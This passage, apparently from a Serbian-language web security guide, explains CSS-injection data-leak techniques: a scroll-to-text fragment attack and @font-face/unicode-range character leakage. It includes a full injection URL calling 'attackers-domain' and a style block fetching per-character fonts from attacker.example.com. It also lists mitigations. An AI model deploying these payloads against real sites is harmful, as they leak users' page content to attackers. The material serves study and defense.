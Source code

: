 ```css
:target::before { content : url(target.png) }
```

U takvim scenarijima, ako je tekst "Administrator" prisutan na stranici, resurs `target.png` se zahteva sa servera, što ukazuje na prisustvo teksta. Primer ovog napada može se izvršiti putem posebno oblikovanog URL-a koji ugrađuje ubačeni CSS zajedno sa fragmentom za skrolovanje do teksta:

```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```

Napad manipuliše HTML ubacivanjem kako bi preneo CSS kod, ciljajući specifičan tekst "Administrator" kroz Scroll-to-text fragment (`#:~:text=Administrator`). Ako se tekst pronađe, naznačeni resurs se učitava, nenamerno signalizirajući svoje prisustvo napadaču.

Za ublažavanje, treba imati na umu sledeće tačke:

1. **Ograničeno podudaranje STTF-a**: Scroll-to-text Fragment (STTF) je dizajniran da se podudara samo sa rečima ili rečenicama, čime se ograničava njegova sposobnost otkrivanja proizvoljnih tajni ili tokena.
2. **Ograničenje na kontekste pregledanja najvišeg nivoa**: STTF funkcioniše isključivo u kontekstima pregledanja najvišeg nivoa i ne funkcioniše unutar iframes-a, čime se svaki pokušaj eksploatacije čini primetnijim korisniku.
3. **Potreba za aktivacijom korisnika**: STTF zahteva gest aktivacije korisnika da bi funkcionisao, što znači da su eksploatacije izvodljive samo putem navigacija koje je inicirao korisnik. Ovaj zahtev značajno umanjuje rizik od automatizovanih napada bez interakcije korisnika. Ipak, autor blog posta ukazuje na specifične uslove i zaobilaze (npr. socijalno inženjerstvo, interakcija sa rasprostranjenim ekstenzijama pregledača) koji mogu olakšati automatizaciju napada.

Svest o ovim mehanizmima i potencijalnim ranjivostima ključna je za održavanje bezbednosti veba i zaštite od takvih eksploatativnih taktika.

Za više informacija pogledajte originalni izveštaj: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

Možete proveriti [**eksploit koji koristi ovu tehniku za CTF ovde**](https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb).

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

Možete specificirati **spoljne fontove za specifične unicode vrednosti** koje će biti **prikupljene samo ako su te unicode vrednosti prisutne** na stranici. Na primer:

```html
<style>
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?A); /* fetched */
unicode-range:U+0041;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?B); /* fetched too */
unicode-range:U+0042;
}
@font-face{
font-family:poc;
src: url(http://attacker.example.com/?C); /* not fetched */
unicode-range:U+0043;
}
#sensitive-information{
font-family:poc;
}
</style>
```
